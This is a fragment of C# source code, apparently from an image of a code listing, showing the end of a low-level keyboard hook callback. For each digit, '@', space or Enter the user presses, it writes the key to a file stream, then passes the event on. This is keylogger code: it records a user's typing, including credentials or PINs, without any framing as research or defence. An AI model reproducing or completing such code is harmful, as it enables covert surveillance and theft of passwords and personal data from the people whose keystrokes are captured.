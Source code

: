                 if (((char)vkCode == '1'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == '2'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == '3'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == '4'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == '5'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == '6'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == '7'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == '8'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == '9'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == '@'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == ' '))
                {
                    sw.Write((Keys)vkCode);
                }
                if(((Keys)vkCode == Keys.Enter))
                {
                    sw.Write((Keys)vkCode);
                }



                sw.Close();
            }
            return CallNextHookEx(_hookID, nCode, wParam, lParam);
        }
